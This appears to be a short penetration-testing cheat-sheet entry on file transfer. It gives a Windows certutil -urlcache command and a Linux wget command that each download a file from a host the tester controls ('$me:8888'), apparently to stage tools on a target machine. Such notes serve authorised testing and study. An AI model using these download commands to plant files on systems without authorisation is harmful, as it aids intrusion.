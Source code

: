 # 2_file_transfer

## Windows

```shell
certutil -urlcache -f http://$me:8888/filename filename
```

## Linux

```shell
wget http://$me:8888/filename
```
